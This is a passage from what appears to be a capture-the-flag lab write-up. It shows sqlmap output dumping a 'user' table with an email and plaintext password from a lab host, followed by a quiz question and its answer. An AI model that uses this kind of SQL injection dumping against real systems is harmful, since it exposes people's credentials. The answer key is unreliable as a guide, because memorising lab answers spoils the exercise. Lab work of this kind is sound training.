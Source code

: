 ```shell
[18:49:03] [INFO] fetching entries for table 'user' in database 'ai'
[18:49:03] [INFO] retrieved: '1'
[18:49:03] [INFO] retrieved: '12345678'
[18:49:03] [INFO] retrieved: '2023-02-21 09:05:46'
[18:49:03] [INFO] retrieved: 'test@chatai.com'
Database: ai
Table: user
[1 entry]
+------+-----------------+---------------------+------------+
| id   | email           | created             | password   |
+------+-----------------+---------------------+------------+
| 1    | test@chatai.com | 2023-02-21 09:05:46 | 12345678   |
+------+-----------------+---------------------+------------+

[18:49:03] [INFO] table 'ai.`user`' dumped to CSV file '/root/.sqlmap/output/10.10.32.196/dump/ai/user.csv'
[18:49:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.32.196'
[18:49:03] [WARNING] you haven't updated sqlmap for more than 2022 days!!!

[*] ending @ 18:49:03 /2025-10-16/

root@ip-10-10-129-125:~#
```

**Question 3** What is the password of the email [test@chatai.com](mailto:test@chatai.com)?

**Answer:** `12345678`

---

Thanks for reading: It's me: ***commostudent***